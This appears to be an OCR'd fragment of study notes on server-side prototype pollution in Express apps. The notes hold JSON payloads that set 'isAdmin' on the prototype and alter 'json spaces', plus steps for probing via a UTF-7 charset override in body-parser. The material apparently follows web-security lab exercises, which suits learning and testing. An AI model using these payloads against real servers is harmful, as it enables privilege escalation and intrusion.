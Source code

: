 ```sh

"prototype":{

"json spaces":10

}

}
# Identify gadget and pollute it with the prototype
"constructor":{

"prototype":{

"isAdmin":true

}

}

########### Charset override
Express servers often implement "middleware" modules that enable preprocessing of requests
body-parser module is commonly used to parse the body of incoming requests in order to generate a req.body object
following code passes an options object into the read() function, which is used to read in the request body for parsing
One of these options, encoding, determines which character encoding to use. This is either derived from 
the request itself via the getCharset(req) function call, or it defaults to UTF-8. 
var charset = getCharset(req) or 'utf-8'

function getCharset (req) {
    try {
        return (contentType.parse(req).parameters.charset || '').toLowerCase()
    } catch (e) {
        return undefined
    }
}

read(req, res, next, parse, debug, {
    encoding: charset,
    inflate: inflate,
    limit: limit,
    verify: verify
})
# getCharset() -> Content-Type header w/o explicit charset attribute -> reverts to an empty string (controllable for p.p.)
# If you can find an object whose properties are visible in a response, you can use this to probe for sources.
1. Add arbitrary UTF-7 encoded string to a property reflected in a response. For example, foo in UTF-7 is +AGYAbwBv-. 
{
    "sessionId":"0123456789",
    "username":"wiener",
    "role":"+AGYAbwBv-"
}
2. Send the request. Servers will not use UTF-7 encoding by default -> string should appear encoded in the response
3. Try to pollute the prototype with a content-type property that explicitly specifies the UTF-7 character set: 
{
    "sessionId":"0123456789",
    "username":"wiener",
    "role":"default",
```